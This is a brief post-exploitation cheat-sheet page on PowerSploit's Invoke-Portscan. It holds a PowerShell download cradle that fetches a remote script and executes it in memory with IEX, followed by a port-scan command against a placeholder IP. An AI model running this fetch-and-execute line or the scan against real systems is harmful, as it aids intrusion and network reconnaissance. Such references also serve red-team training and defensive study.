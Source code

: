 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - enumeration-and-discovery
  - networking
  - network-protocols
  - port-scanners
  - offensive-tools
  - windows
---
```

# Scripts

## 01 - PowerSploit

### 1.1 - `Invoke-Portscan`

Download cradle.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/situational_awareness/network/Invoke-Portscan.ps1')
```

Perform portscan on hosts.

```
PS C:\> Invoke-Portscan -Hosts "<IP>" -TopPorts 50
```

---
## References

### Source Repositories

- [PowerSploit: Invoke-Portscan](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1)